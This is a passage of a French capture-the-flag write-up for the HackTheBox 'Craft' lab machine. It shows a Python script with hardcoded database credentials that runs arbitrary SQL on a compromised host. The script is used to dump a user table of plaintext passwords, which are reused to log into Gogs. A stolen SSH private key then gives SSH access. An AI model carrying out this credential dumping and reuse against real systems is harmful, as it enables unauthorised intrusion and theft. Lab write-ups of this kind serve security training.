 ```python
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
```

- On mixe les deux fichiers pour obtenir un script prenant la commande SQL en paramètre : 

```python
#!/usr/bin/env python
import pymysql
import sys
connection = pymysql.connect(host='db',user='craft',password='qLGockJ6G2J75O',db='craft',cursorclass=pymysql.cursors.DictCursor)
try:
    with connection.cursor() as cursor:
        sql = sys.argv[1]
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)
finally:
    connection.close()
```

- On affiche les BDD disponibles `python co.py "show databases"`

```json
{'Database': 'craft'}
{'Database': 'information_schema'}
```

- Puis les tables : `/tmp # python co.py "show tables" `

```json
{'Tables_in_craft': 'brew'}
{'Tables_in_craft': 'user'}
```

- On récupére le contenus de la table user : `/tmp # python co.py "select * from user"`

```json
{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}
```

- Les identifiants `gilfoyle\ZEU3N8WNM2rh4T` fonctionne sur Gogs

- Sur le profil de gilfoyle il y a une repository privée, avec un dossier `.ssh` - https://gogs.craft.htb/gilfoyle/craft-infra/src/master/.ssh/ - contenant clé privé et clé publique

- On télécharge en local le fichier `id_rsa`
- On s'authentifie `ssh -i ~/id_rsa_craft_gilfoyle gilfoyle@10.10.10.110` en utilisant `ZEU3N8WNM2rh4T` comme Passphrase
